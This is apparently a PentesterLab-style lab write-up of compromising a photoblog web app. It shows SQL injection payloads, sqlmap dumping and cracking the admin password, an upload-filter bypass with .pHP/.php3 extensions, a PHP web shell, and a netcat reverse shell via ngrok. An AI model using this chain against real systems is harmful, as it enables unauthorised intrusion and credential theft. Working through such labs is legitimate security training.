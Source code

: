 ## recon
On website.
```
http://ptl-0c865be7-ee5514ce.libcurl.so/cat.php?id=1%27
 You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''' at line 1 
 ```
 I got 4 columns `http://ptl-0c865be7-ee5514ce.libcurl.so/cat.php?id=1 order by 4--+-`
 ```
http://ptl-0c865be7-ee5514ce.libcurl.so/cat.php?id=1 union select 1,2,3,4--+-

2
```
Data on columns 2.
```
http://ptl-0c865be7-ee5514ce.libcurl.so/cat.php?id=1 union select 1,user(),3,4--+-
ptl@172.30.0.15
```
Now to be fast i will use sqlmap
```
└─# /home/bloman/tools/Web/sqlmap/sqlmap.py -u "http://ptl-0c865be7-ee5514ce.libcurl.so/cat.php?id=1" -p id --dbs
available databases [2]:
[*] information_schema
[*] photoblog

└─# /home/bloman/tools/Web/sqlmap/sqlmap.py -u "http://ptl-0c865be7-ee5514ce.libcurl.so/cat.php?id=1" -p id -D photoblog -T users -C login,password --dump
[16:18:16] [INFO] cracked password 'P4ssw0rd' for user 'admin'                                                                      
Database: photoblog                                                                                                                 
Table: users
[1 entry]
+-------+---------------------------------------------+
| login | password                                    |
+-------+---------------------------------------------+
| admin | 8efe310f9ab3efeae8d410a8e0166eb2 (P4ssw0rd) |
+-------+---------------------------------------------+

```
Now logged in on admin.
Now i will add my shell using admin and manage picture.
But when i add php. it's saying NO PHP!!
Time to bypass that shit.
```
└─# mv phpbash.php phpbash.pHP            
```
It's work but my shell not showing.
The things i will do now is to bruteforce this url:
`http://ptl-be4f25ce-815d3922.libcurl.so/admin/`
```
└─# ffuf -u "http://ptl-be4f25ce-815d3922.libcurl.so/admin/FUZZ" -w /usr/share/wordlists/dirb/common.txt
________________________________________________

 :: Method           : GET
 :: URL              : http://ptl-be4f25ce-815d3922.libcurl.so/admin/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 322, Words: 22, Lines: 12, Duration: 801ms]
.htpasswd               [Status: 403, Size: 322, Words: 22, Lines: 12, Duration: 801ms]
.hta                    [Status: 403, Size: 317, Words: 22, Lines: 12, Duration: 830ms]
                        [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1547ms]
index.php               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 441ms]
uploads                 [Status: 301, Size: 360, Words: 20, Lines: 10, Duration: 512ms]

```
I will check uploads.
http://ptl-be4f25ce-815d3922.libcurl.so/admin/uploads/
Yeah i found my shell. But the extension is not working. so i bruteforced using burp and now i will use `.php3`
```
└─# cat ivan.php3 
<?php
	  system($_GET['cmd']);
?>

```
When i upload it and execute it i got 
```
Notice: Undefined index: cmd in /var/www/admin/uploads/ivan.php3 on line 2

Warning: system(): Cannot execute a blank command in /var/www/admin/uploads/ivan.php3 on line 2
```
so now i added `http://ptl-be4f25ce-815d3922.libcurl.so/admin/uploads/ivan.php3?cmd=whoami` and i got `www-data `
exercise completed. 
`http://ptl-be4f25ce-815d3922.libcurl.so/admin/uploads/ivan.php3?cmd=/usr/local/bin/score%20e08a92d8-b33f-4fd1-afe0-18fd15e61d35`
I used ngrok to get a shell
```
└─$ sudo rlwrap nc -lvnp 1337
[sudo] password for bloman: 
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 52742
Linux a42a2c48446c 5.10.0-10-amd64 #1 SMP Debian 5.10.84-1 (2021-12-08) x86_64 GNU/Linux
 12:20:22 up 675 days,  7:44,  0 users,  load average: 0.02, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@a42a2c48446c:/$ whoami
whoami
www-data
www-data@a42a2c48446c:/$ 

```